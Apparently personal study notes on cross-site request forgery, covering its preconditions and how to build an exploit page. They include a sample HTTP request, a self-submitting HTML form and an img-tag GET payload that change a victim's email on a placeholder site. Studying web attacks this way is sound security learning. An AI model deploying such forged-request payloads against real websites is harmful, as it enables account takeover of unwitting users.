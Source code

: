 ### General Notes

Allows an attacker to make a user perform actions that they didn't intend to perform.
- Could allow for full account take over.

Allows attackers to bypass the [[Same Origin Policy (SOP)]] since the attacker doesn't need to read the response from the server.

> CSRF vulnerabilities occur when vulnerable web apps simply trust the [[Cookies]] sent by web browsers without further validation.

---
### CSRF Methodology

There must be a **relevant action** that the attacker has a reason to induce
- A privileged action such as modifying permissions, or on user specific data, such as changing password or email.
 
There must be **[[Sessions]] that are handled via [[Cookies]]**.
- This attack involves invoking multiple [[HTTP]] requests, and the application tracks which user invokes through these cookies and sessions.
- ***No other*** mechanism in place for tracking users.

There must be **no unpredictable parameters**.
- The attacker should be able to guess and have all parameters found in the requests.
 
HTML code is then used to construct a page from the request that simulates this relevant action.
- For instance, this code is used to change the email address of a user if this is the request.

```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 30 
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE 

email=wiener@normal-user.com
```

```HTMl
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
- The `action` attribute of the `form` element is the URL and the path found in the request of the chosen action, and the `method` attribute is `POST` similar to the request.
- The `email` is a parameter, so it is the `input` element, and the `value` attribute holds the new email we want to change to.

If the request was a `GET` request with the email parameter placed as a query parameter, the exploit wouldn't need to be a different HTML page.
- The payload will be a link that is self-contained, meaning it doesn't open another page.
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net" >
```
